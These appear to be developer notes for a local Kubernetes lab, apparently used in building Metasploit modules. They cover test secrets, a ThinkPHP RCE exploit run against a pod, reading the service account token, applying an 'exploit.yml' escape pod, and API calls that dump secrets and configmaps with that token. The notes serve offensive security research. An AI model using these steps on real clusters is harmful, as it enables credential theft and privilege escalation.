## Pods

Create resources:

```
kubectl apply -f redis.yaml
kubectl apply -f thinkphp.yaml
```

Ensure pods are alive:

```
kubectl describe pods
```

Interacting with a pod:

```
kubectl exec -it redis -- /bin/sh
```

Getting a JWT token for the kube-system namespace:

```
kubectl -n kube-system describe secret default

# For use in CURLs
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

## Secrets

Create resources:

```
kubectl apply -f secrets.yaml

kubectl create secret generic secret-empty

kubectl create secret generic secret-id-rsa-with-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-with-passphrase --type=kubernetes.io/ssh-auth
kubectl create secret generic secret-id-rsa-without-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-without-passphrase --type=kubernetes.io/ssh-auth

kubectl create secret generic secret-id-ed25519-with-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-with-passphrase --type=kubernetes.io/ssh-auth
kubectl create secret generic secret-id-ed25519-without-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-without-passphrase --type=kubernetes.io/ssh-auth

kubectl create secret docker-registry secret-local-registry --docker-username=username --docker-password=password --docker-email=admin@example.com

kubectl create secret tls secret-tls --key ./secrets/ca.key --cert ./secrets/ca.crt
```

To populate a lot of secrets, for testing purposes:

```
for i in {1..2000}; do kubectl create secret generic secret-basic-auth-$i --from-literal=username=username-${i} --from-literal=password=password-${i} --type="kubernetes.io/basic-auth"; done 
```

Checking secrets:
```
kubectl describe secrets
```

Checking config maps which may also have sensitive information:

```
kubectl describe configmap
```

Dumping JSON:
```
kubectl describe configmap -o json
```

Deleting
```
kubectl delete secrets --all
```

## Thinkphp session

Ensure the pod has been created and alive:
```
kubectl apply -f thinkphp.yaml
kubectl get deployments thinkphp
```

Access the pod from localhost, in lieu of setting up ingress properly:

```
kubectl port-forward thinkphp-67f7c88cc9-djg6q 8000:80
```

Run the Metasploit exploit module:

```
use exploit/unix/webapp/thinkphp_rce
run http://localhost:8000
```

Acquire a shell, and verify the service token is in the container:
```
cat /run/secrets/kubernetes.io/serviceaccount/token
```

## Testing volume exploit

```
kubectl delete pod generate-this-later-pod 2>/dev/null; kubectl apply -f ./exploit.yml
```

Directly interacting with it:
```
kubectl exec -it generate-this-later-pod -- /bin/sh
```

## API

The OpenAPI approach looks interesting, as we can generate clients in the same way as Swagger:

https://kubernetes.io/blog/2016/12/kubernetes-supports-openapi/

Generated:

https://v1-18.docs.kubernetes.io/docs/reference/generated/kubernetes-api/v1.18/

Client examples:
https://github.com/kubernetes-client

Note that the namespace would be in the URI `api/v1/namespaces/{namespace_name}/`
You can also retrieve the list of namespaces locally with:

```
kubectl get namespaces
kubectl get namespaces -o json
```

### JWT_TOKEN

Note that the curl examples assume the `jwt_token` is set.

If you're on your host with `kubectl` available:

```
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

If you're in a container already:

```
jwt_token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
echo $jwt_token
```

### Get namespaces

```
curl --insecure --request GET \
--url 'https://kubernetes.docker.internal:6443/api/v1/namespaces' \
--header "Authorization: Bearer ${jwt_token}"
```

### Get PODs

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Secrets

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/secrets' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Configmaps

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/configmaps' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Create a pod

```
yq -o json e ./exploit.yml |
  curl --insecure -v --request POST \
    --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
    --header "Authorization: Bearer ${jwt_token}" \
    --header 'Content-Type: application/json' \
    --data @-
```

### Management

Clean up:

```
kubectl delete deployments,pods,services --all
```

Delete all CrashLooping pods:

```
kubectl delete pod `kubectl get pods | awk '$3 == "CrashLoopBackOff" {print $1}'`
```

Running the Kubernetes [Dashboard UI](https://kubernetes.io/docs/tasks/access-application-cluster/web-ui-dashboard/):

```
kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.3.1/aio/deploy/recommended.yaml

kubectl proxy
```

Now visit:

http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/#/login

To login, use the `jwt_token` mentioned above

### Ideas

Spencer
- Confirm Comm semantics for send_cgi
- Decide on how we want to get additional sessions, i.e. docker pod cmd, exec + mettle, or exec + stream
- If we have a long lived attacker pod, we could continually exec new payloads against it. We'd need to keep track of it for reuse and cleanup.
        - Pod exec example: https://github.com/kubernetes-client/python/blob/master/examples/pod_exec.py#L84-L90
        - https://github.com/kubernetes-client/python-base/blob/master/stream/stream.py#L34

Alan
- Update sysinfo to detect if you're in docker/kubernetes
- Pull out the secrets information / env / ConfigMaps
- Get access to a real cluster

TODO: ENV will disappear from the container if you upgrade a shell to meterpreter
TODO: Module for generating jwt tokens if we can sign them?
